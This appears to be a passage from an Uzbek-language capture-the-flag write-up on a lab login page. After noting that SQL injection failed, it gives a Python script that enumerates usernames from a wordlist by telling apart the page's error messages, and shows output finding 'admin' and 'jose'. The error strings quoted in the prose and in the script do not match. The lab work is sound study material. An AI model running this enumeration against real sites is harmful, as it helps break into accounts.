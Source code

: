 

Lekin hech qanday routing topilmadi.



Biz saytda faqat login-page ni ko'rdik va SQL injection zaifligi bo'yicha testlab ko'rdik. Sahifa zaif emas ekan. Biroq biz shunchaki taxminiy login-parollarni sinab ko'rayotgan chog'imizda "Xatolik haqida ko'p ma'lumot berish" holatiga duch keldik. Yani Username va Passwordlar bo'yicha. Bu xato usernamelarni enumeratsiya qilshda qo'l keldi. Yani agar user mavjud bo'lmasa "Username or password is incorrect", mavjud bo'lsa "Password is incorrect".

## Brute-Force

Usernameni enumeratsiya qiluvchi script:

```]
import requests

url = "http://lookup.thm/login.php"

# username listni manzili
file_path = "/usr/share/payloads/seclists/Usernames/Names/names.txt"

try:
    with open(file_path, "r") as file:
        for line in file:
            username = line.strip()
            if not username:
                continue  # pass
            
            # Post so'rovni tayyorlash
            data = {
                "username": username,
                "password": "password"  # shunchaki parol
            }

            # Post so'rov yuborish
            response = requests.post(url, data=data)
            
            # Javobni tekshirish
            if "Wrong password" in response.text:
                print(f"Username found: {username}")
            elif "wrong username" in response.text:
                continue
except FileNotFoundError:
    print(f"Error: The file {file_path} does not exist.")
except requests.RequestException as e:
    print(f"Error: An HTTP request error occurred: {e}")
```

Natija:

```
╭─mete   󰉖 ~/THM/THM-LABS/0406-2025                                                  
╰─ ❯❯ sudo python3 username_enum.py 
Username found: admin
Username found: jose
```
